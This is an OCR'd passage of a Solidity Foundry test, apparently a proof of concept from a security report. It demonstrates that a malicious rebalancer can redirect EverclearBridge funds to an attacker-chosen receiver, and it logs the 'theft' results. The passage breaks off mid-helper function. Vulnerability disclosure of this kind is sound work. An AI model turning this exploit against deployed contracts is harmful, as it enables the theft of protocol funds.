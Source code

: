```solidity
        uint256 attackerBalanceAfter = weth.balanceOf(attacker);
        uint256 attackerGain = attackerBalanceAfter - attackerBalanceBefore;

        console2.log("=== PHASE 2 RESULTS ===");
        console2.log("Attacker balance after:", attackerBalanceAfter);
        console2.log("Attacker gained:", attackerGain);
        console2.log("");

        // Final verification
        assertEq(
            attackerGain,
            THEFT_AMOUNT,
            "Attacker didn't receive stolen tokens"
        );

        console2.log("=== COMPLETE THEFT CONFIRMED ===");
        console2.log(
            "Phase 1: Malicious intent submitted with attacker as receiver"
        );
        console2.log(
            " Phase 2: Tokens delivered to attacker on destination chain"
        );
        console2.log("");
        console2.log(" THEFT SUMMARY:");
        console2.log("   Protocol lost:", extractedAmount, "WETH");
        console2.log("   Attacker gained:", attackerGain, "WETH");
        console2.log("   Theft efficiency: 100%");
        console2.log("");
        console2.log(" VULNERABILITY CONFIRMED:");
        console2.log("   - No receiver validation in EverclearBridge");
        console2.log(
            "   - Malicious rebalancer can redirect funds to any address"
        );
        console2.log("   - Complete protocol fund theft possible");
    }
   
    /**
     * @notice Helper function to create malicious Everclear intent
     */
    function _createMaliciousEverclearIntent(
        address receiver,
        address inputAsset,
        address outputAsset,
        uint256 amount,
        uint32 destinationChainId
    ) internal view returns (bytes memory) {
        // Create destinations array
        uint32[] memory destinations = new uint32[](1);
        destinations[0] = destinationChainId;

        // Create fee parameters
        IFeeAdapter.FeeParams memory feeParams = IFeeAdapter.FeeParams({
            fee: 1000, // Small fee
            deadline: block.timestamp + 3600, // 1 hour deadline
            sig: "" // Empty signature for mock
        });

        // Encode intent parameters exactly as EverclearBridge expects
        bytes memory intentData = abi.encode(
            destinations, // Valid destinations
            bytes32(uint256(uint160(receiver))), // MALICIOUS RECEIVER
            inputAsset, // Valid input asset
            bytes32(uint256(uint160(outputAsset))), // Valid output asset
```